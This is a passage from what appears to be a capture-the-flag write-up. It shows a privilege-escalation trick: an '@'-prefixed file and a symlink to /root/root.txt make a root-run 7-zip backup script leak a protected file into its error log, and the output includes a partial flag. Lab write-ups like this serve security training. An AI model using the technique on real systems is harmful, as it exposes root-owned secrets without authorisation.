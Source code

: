 
So by placing a file starting with an `@` character in the uploads folder, the 7-zip archiver will attempt to read a list of file to compress from the file name specified after the @ sign. By referencing a symlink to root.txt instead of a file containing filenames, 7-zip tries to read the flag and I can see it in the error log file.

```
drwxrwxrwx. 2 apache   apache    31 Feb  5 21:21 .
drwxr-xr-x. 6 root     root     176 Oct 23 22:14 ..
lrwxrwxrwx. 1 ldapuser ldapuser  14 Feb  5 21:21 test -> /root/root.txt
-rw-rw-r--. 1 ldapuser ldapuser   0 Feb  5 21:21 @test
```

After a minute, the script executes, gets the file to read from `@test` and then ...
```
lapuser@ctf backup]$ tail -f error.log


Command Line Error:
Cannot find listfile
listfile.txt
tail: error.log: file truncated

WARNING: No more files
fd6d2e...
```